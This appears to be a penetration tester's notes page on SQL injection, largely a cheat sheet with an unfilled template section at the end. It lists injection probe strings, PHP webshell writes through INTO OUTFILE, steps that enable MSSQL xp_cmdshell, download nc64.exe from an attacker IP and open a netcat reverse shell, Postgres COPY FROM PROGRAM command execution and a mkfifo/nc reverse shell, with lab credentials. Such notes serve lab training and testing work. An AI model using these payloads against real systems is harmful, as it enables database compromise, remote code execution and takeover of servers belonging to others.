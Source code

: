 # Description

SQL injection (SQLi) is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution.

## Identify Where SQL Injection Can Be Performed

There are many places where SQLi can be performed. For example,

- URL parameters
- POST parameters
- HTTP request headers (Cookie, User-Agent, etc.)

# Command Syntax

## Entry Point Detection

```sql
'
%27
%2527

"
%22
%2522

`
%60
%2560

#
%23
%2523

;
%3B
%253B

)
%29
%2529

')
%27%29
%2527%2529

")
%22%29
%2522%2529
```

## Comment Syntax

Comment syntax is depending on the database used in the website.

|DBMS|Comments|
|---|---|
|MySQL|`-- -` (add a space after `--`)|
||`#`|
||`/*comment*/`|
||`/*!comment*/`|
|MSSQL|`--`|
||`/*comment*/`|
|Oracle|`--`|
|PostgreSQL|`--`|
||`/*comment*/`|
|SQLite|`--`|
||`/*comment*/`|

```bash
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php' 

' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php'  -- -'
```

💡 We can find webshell location to upload in phpinfo (.php) DOCUMENT_ROOT

## xp_cmdshell

```bash
netexec mssql 10.10.137.148 -u sql_svc -p Dolphin1

impacket-mssqlclient svc_mssql:'Service1'@240.0.0.1 -windows-auth


# Option from Nagoya

enable_xp_cmdshell

xp_cmdshell whoami

# Classic from the Course

EXECUTE sp_configure 'show advanced options', 1;

RECONFIGURE;

EXECUTE sp_configure 'xp_cmdshell', 1;

RECONFIGURE;

EXECUTE xp_cmdshell 'whoami';

EXECUTE xp_cmdshell 'powershell iwr -uri http://10.10.137.147:8888/nc64.exe -OutFile C:/Users/Public/nc64.exe';

EXECUTE xp_cmdshell 'C:/Users/Public/nc64.exe 10.10.137.147 443 -e cmd';
```

## Postgres RCE

```bash
psql -h 240.0.0.1 -p 5432 -U postgres -d webapp

DROP TABLE IF EXISTS cmd_exec;

CREATE TABLE cmd_exec(cmd_output text);

COPY cmd_exec FROM PROGRAM 'id';

SELECT * FROM cmd_exec;

DROP TABLE IF EXISTS cmd_exec;
```

## Reverse Shell

```bash
COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.160 443 >/tmp/f';
```

## Bypass Auth

SecLists/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt at master · danielmiessler/SecLists

# Common Flags / Options

-flag: Description of what this flag does

# Use Cases

When there's an input on the website that is being tested.

# Examples

Practical example from a lab machine or HTB.

```sh
example-command -flag target
```

# Related Notes

[[Link to a related atomic note]]

[MOC - Initial Access](../../0%20-%20MOCs/MOC%20-%20Initial%20Access.md)

# References

https://exploit-notes.hdks.org/exploit/web/sql-injection-cheat-sheet/

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#entry-point-detection